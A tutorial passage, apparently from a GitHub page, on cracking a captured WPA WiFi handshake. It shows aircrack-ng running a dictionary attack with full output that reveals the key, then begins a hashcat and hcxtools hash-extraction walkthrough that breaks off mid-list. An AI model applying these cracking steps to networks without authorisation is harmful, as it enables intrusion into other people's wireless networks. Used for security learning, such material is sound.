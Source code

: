 ## Cracking The Captured Password
The captured handshake in the `netcap-01.cap` file.

```
drew@kali:~$ ls
netcap-01.cap  netcap-01.csv  netcap-01.kismet.csv  netcap-01.kismet.netxml  netcap-01.log.csv
```
### Using Aircrack-ng
We can use the `aircrack-ng` tool to perform a dictionary attack on the captured handshake to crack the WiFi password. In this example, we'll use a dictionary from [Seclists](https://github.com/danielmiessler/SecLists). Run the following command, where:

- `-w` specifies the path to the dictionary file.
- `netcap-01.cap` is the capture file containing the handshake.

If the password is weak and included in your dictionary, `aircrack-ng` will find it and display the key along with additional handshake details. In my case, the WiFi password was `password`. 
```
drew@kali:~$ aircrack-ng -w  /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt netcap-01.cap
                               Aircrack-ng 1.6 

      [00:00:00] 2372/4800 keys tested (7414.84 k/s) 

      Time left: 0 seconds                                      49.42%

                           KEY FOUND! [ password ]

      Master Key     : D1 EE C8 ED B4 43 1E 8A 89 C2 66 D6 51 5F 87 E7 
                       6F CD A8 86 8E 2D 73 34 A9 FA B1 5A E4 09 0D EF 

      Transient Key  : AA 36 5F 32 3D 44 F9 ED 6F 4B 22 A0 23 CA 36 66 
                       9D BC 7C 96 36 89 A3 39 B2 50 EE 88 98 20 65 A4 
                       B9 1B 7F 3E AF 76 59 89 24 C9 1A 12 82 2E 9C D2 
                       D3 68 CD 7E 66 0D 97 8E 41 61 95 23 08 D9 00 4A 

      EAPOL HMAC     : 6B 1E 98 DF A1 10 71 B4 BA 12 59 4B 67 19 76 2B 
```

### Using Hashcat (GPU)
If you want to leverage your GPU for increased speed you can use [hashcat](https://hashcat.net/hashcat/).

#### Installing Hashcat and Hcxtools
We need `hxctools` to extract the hash from the capture file automatically. 
```
drew@kali:~$ sudo apt install hashcat hcxtools
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
hashcat is already the newest version (6.2.6+ds2-1).
hcxtools is already the newest version (6.3.4-1).
0 upgraded, 0 newly installed, 0 to remove and 1291 not upgraded.
```
#### Extracting the Hash From The Capture File
You can use the `hcxpcapngtool` from the `hcxtools` suite with the following options:
- `-o ap.hc22000` output file to store the hash compatible with `hashcat
- `netcap-01.cap` the network capture with the handshake
